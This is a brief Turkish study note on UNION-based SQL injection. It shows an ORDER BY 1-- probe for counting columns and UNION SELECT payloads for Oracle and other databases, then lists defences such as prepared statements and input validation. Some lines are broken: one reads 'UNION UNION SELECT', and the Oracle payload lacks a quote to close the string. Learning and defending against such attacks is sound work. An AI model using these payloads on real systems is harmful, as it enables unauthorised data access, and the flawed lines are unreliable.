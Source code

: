 # UNION

### Tanım
- SELECT * FROM products WHERE category = 'Pets';

-------------------------------------

### order+by +1--
- ==> SELECT * FROM products WHERE category = 'Pets' ORDER BY 1--';
    - ' → Stringi kapatır.
    - ORDER BY 1 → Sonuçları ilk sütuna göre sıralar. 
        - 1,2,3,... hata alana kadar yaz sütün sayısını öğren.
    - -- → Geri kalan kısmı yorum satırına çevirerek sorgunun orijinal yapısını bozar.

-------------------------------------

### UNION (Oracle)
- ==> SELECT * FROM products WHERE category = 'Pets' UNION SELECT 'abc', 'def' FROM dual--
### UNION (MySQL, MSSQL (Microsoft SQL Server), PostgreSQL, SQLite)
- ==> SELECT * FROM products WHERE category = 'Pets' UNION UNION SELECT 'abc', 'def';

-------------------------------------

### Nasıl Önlenir?
- Parametreli Sorgular (Prepared Statements) Kullanın
- Gelen parametreleri doğrulayın ==> Örneğin, sadece belirli kategorilere izin verin.
- Hata mesajlarını gizleyin ==> Hata döndürmek yerine, 500 Internal Server Error verin.
- Web Application Firewall (WAF) gibi sistemlerle SQL enjeksiyon saldırılarını engelleyin.
